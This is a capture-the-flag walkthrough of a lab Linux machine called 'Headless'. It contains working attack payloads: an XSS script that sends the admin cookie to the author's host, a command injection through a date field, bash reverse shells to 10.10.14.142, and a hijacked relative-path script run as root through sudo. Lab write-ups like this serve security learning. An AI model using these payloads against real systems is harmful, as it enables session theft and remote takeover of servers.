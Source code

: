 # Headless
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a simple port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.189.70 --max-retries 1
```

```
PORT     STATE SERVICE VERSION                                                                                                                                                                                                              
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)                                                                                                                                                                        
| ssh-hostkey:                                                                                                                                                                                                                              
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)                                                                                                                                                                             
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)                                                                                                                                                                           
5000/tcp open  upnp?                                                                                                                                                                                                                        
| fingerprint-strings:                                                                                                                                                                                                                      
|   GetRequest:                                                                                                                                                                                                                             
|     HTTP/1.1 200 OK                                                                                                                                                                                                                       
|     Server: Werkzeug/2.2.2 Python/3.11.2                                                                                                                                                                                                  
|     Date: Thu, 29 Aug 2024 12:37:20 GMT                                                                                                                                                                                                   
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                                                
|     Content-Length: 2799                                                                                                                                                                                                                  
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/                                                                                                                                                                     
|     Connection: close                                                                                                                                                                                                                     
|     <!DOCTYPE html>                                                                                                                                                                                                                       
|     <html lang="en">                                                                                                                                                                                                                      
|     <head>                                                                                                                                                                                                                                
|     <meta charset="UTF-8">                
```

Let's take a look at the web server on port 5000.

![pg1](IMG/img1.png)

Nothing much on this page. Following the link, we land on a contact support page.

![pg2](IMG/img2.png)

I'll run gobuster to search for more pages.
```bash
gobuster dir -u http://10.129.189.70:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![dirb](IMG/img3.png)

Let's check the dashboard page.

![dash](IMG/img4.png)

![cookie](IMG/img5.png)

As we can see we should obtain a is_admin cookie. We can do this by stealing the cookie of the administrator using the contact support page.

I'll open Burpsuite for this.

```payload
<script>var i=new Image(); i.src="http://10.10.14.142:8000/?cookie="+btoa(document.cookie);</script>
```

I'll also start a web server on port 8000.
```bash
python3 -m http.server -b 10.10.14.142
```

![burpF](IMG/img6.png)

That's not good. We can see our request is displayed as the result of the hacking attempt so we can try to put our payload somewhere in the request headers.

I'll change the User-Agent header.

![burpPay](IMG/img8.png)

```           
Serving HTTP on 10.10.14.142 port 8000 (http://10.10.14.142:8000/) ...
10.129.189.70 - - [29/Aug/2024 16:13:12] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

It worked! Now let's try to access the dashboard page. We will first need to decode this.

```bash
echo aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= |base64 -d

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

![adminpg](IMG/img9.png)

## Foothold:

I'll generate a report and capture the request with burpsuite. I'll try a simple command injection payload.

```
2023-09-15;ls
```

![ci](IMG/img10.png)

This works. Now let's try to get a shell.

On host:
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.142/6666 0>&1' #Note: URL encoded
```

![shell](IMG/img11.png)

It worked! Now let's get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation:

Let's see if we can run anything as the root user.

```bash 
sudo -l

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

And we can. Now let's see what it does.

```bash
cat /usr/bin/syscheck

#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Something stood out to me when reading the script. It uses the relative path of initdb.sh instead of an absolute path. So we can make a script with the same name that starts a reverse shell. This script will be called as the root user.

Script:
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.142/6667 0>&1' 
```

I'll start a server and transfer it to the target.

Host:
```bash
python3 -m http.server -b 10.10.14.142
```

Target:
```bash
wget http://10.10.14.142:8000/initdb.sh

chmod +x initdb.sh
```

We also need to start another listening port.
Host:
```bash
rlwrap nc -lnvp 6667
```

And now let's run the script.
```bash
sudo /usr/bin/syscheck
```

![root](IMG/img12.png)

And it worked. Now let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!
